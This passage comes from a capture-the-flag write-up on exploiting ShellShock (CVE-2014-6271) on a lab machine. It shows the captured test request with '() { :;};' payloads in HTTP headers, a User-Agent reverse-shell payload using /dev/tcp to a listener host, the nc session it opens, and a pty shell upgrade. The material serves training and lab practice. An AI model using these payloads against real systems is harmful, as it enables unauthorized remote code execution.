     |       http://www.openwall.com/lists/oss-security/2014/09/24/10
    |       http://seclists.org/oss-sec/2014/q3/685
    |       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
    |_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 6.66 seconds



I captured that in Wireshark to see what it was doing. The request with
the exploit check is:



    GET /cgi-bin/user.sh HTTP/1.1
    Connection: close
    Referer: () { :;}; echo; echo -n kgbyrbl; echo pkzxdko
    Cookie: () { :;}; echo; echo -n kgbyrbl; echo pkzxdko
    User-Agent: () { :;}; echo; echo -n kgbyrbl; echo pkzxdko
    Host: 10.10.10.56



First, it's worth noting that technically this is executing code on the
scanned machine. So while it's just an `echo`, it's still RCE, so it's
worth knowing that and making sure you're within scope / laws / ethics.

The result is multiple prints of the two strings, showing that
ShellShock here is successful in `Referer`, `Cookie`, and `User-Agent`.

### Shell

I'll start a `nc` listener on tcp 443, and then send the following:



    User-Agent: () { :;}; /bin/bash -i >& /dev/tcp/10.10.14.15/443 0>&1



The web request hangs, and I get a shell at `nc`:



    oxdf@parrot$ nc -lvnp 443
    listening on [any] 443 ...
    connect to [10.10.14.15] from (UNKNOWN) [10.10.10.56] 45314
    bash: no job control in this shell
    shelly@Shocker:/usr/lib/cgi-bin$



I'll get a full shell with the normal trick:



    shelly@Shocker:/usr/lib/cgi-bin$ python3 -c 'import pty;pty.spawn("bash")'
    python3 -c 'import pty;pty.spawn("bash")'
    shelly@Shocker:/usr/lib/cgi-bin$ ^Z
    [1]+  Stopped                 nc -lvnp 443
    oxdf@parrot$ stty raw -echo ; fg
    nc -lvnp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
                                                                             
